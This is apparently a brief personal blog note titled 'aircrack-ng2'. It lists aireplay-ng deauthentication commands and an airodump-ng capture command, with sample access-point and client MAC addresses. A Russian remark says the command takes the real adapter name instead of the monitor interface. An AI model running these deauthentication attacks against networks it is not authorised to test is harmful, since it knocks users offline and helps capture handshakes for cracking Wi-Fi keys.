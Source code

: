 ```yaml
---
layout: post
title:  "aircrack-ng2"
date:   2010-07-20 13:03:00 +0400
categories: wifi
tags: wifi
---
```


# aircrack-ng2
aireplay-ng wlan0 --deauth 5 -a AP_BSSID -c CLIENT_BSSID

airodump-ng -c5 mon0
aireplay mon0 -0 5 -a 4F:B1:A4:05:5C:21 -c 5B:23:15:00:C8:57

Внимание: эта команда — исключение и принимает идентификатор реального беспроводного адаптера, а не mon0, созданного с помощью airmon-ng. 
